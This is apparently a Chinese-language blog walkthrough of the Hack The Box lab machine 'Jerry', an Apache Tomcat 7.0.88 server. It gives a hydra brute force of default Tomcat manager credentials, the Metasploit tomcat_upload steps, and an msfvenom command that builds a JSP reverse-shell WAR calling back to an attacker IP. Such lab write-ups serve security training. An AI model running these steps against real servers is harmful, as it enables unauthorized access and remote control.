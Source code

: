 ```yaml
---
title: Jerry
date: 2021-12-24 11:29:39
tags: Hack The Box
categories: 中间件
---
```


## 靶机信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5f1dc82530e485e91e914d59c62f9ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 信息收集

我们可以看到，目标主机只开放了8080端口，而且版本还是`7.0.88`的
![在这里插入图片描述](https://img-blog.csdnimg.cn/12b2a2ded3544b248ce0ae24e4c30139.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们立马登录tomcat页面，并且尝试账户和密码都是admin，看看能不能登录成功，结果是失败的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/14569a31b1e04d76855654582e15e833.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1c59a404d30477d9434d5ca81214227.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们下载`seclists`这个工具，对tomcat的默认用户名和密码进行暴力破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/4573275f27314e41997be90a187c528b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们使用hydra工具对账号密码进行破解，发现账号是tomcat，密码是s3cret

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e489a5e1395436f87bbc2c1c05db04b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### MSF获取权限

```bash
search tomcat_mgr
use exploit/multi/http/tomcat_upload
show options
set rhosts 10.10.10.95
set lhost 10.10.14.11
set httpusername tomcat
set httppassword s3cret
set rport 8080
exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/405b1654a30e4fd8b5ff405938d24a51.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们获取一个shell，发现已经是最高权限了
![在这里插入图片描述](https://img-blog.csdnimg.cn/efd9843d30e5431cbe6ae1408fbcb011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查看到flag值了
![在这里插入图片描述](https://img-blog.csdnimg.cn/89ecac8618f24fdf9edd6cf96a419036.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### NC反弹shell

首先我们先准备一个木马

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1234 -f war > shell.war
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4abdde92c484b46ac8782a2c62da4fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用账号密码登录进部署页面，并将生成的木马部署进tomcat服务器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9dd05049c33f45cf971a5f70a9a6d2e8.png)
然后我们启动nc进行监听，并且在浏览器上浏览我们刚刚上传的war包，反弹shell成功。
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbcd897e89c149549ead8a54352163ae.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/488c679d14e64be28972f71dab63504a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

